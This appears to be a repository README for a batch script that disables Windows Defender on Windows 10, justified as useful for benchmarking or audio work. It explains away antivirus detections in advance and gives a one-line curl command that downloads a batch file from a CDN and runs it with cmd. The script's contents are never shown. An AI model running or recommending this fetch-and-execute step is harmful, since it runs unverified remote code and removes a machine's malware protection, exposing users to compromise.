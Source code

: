 <mono>
This script specifically disables Windows Defender in Windows 10. This can occasionally be useful when wishing to avoid overhead during benchmarking or for low-latency applications like audio hosts.
</mono>
<br>
<br>
<mono>
It will get incorrectly detected as potential malware by many antivirus programs, presumably because there is some batch script malware out there that deliberatly disables windows defender without the user knowing. 
</mono>

<hr>

```terminal
curl -Ls "https://fastly.jsdelivr.net/gh/hv33y/win10-disable-defender/disable.txt" -o "DisableWindowsDefender.bat" | cmd /k DisableWindowsDefender.bat
```
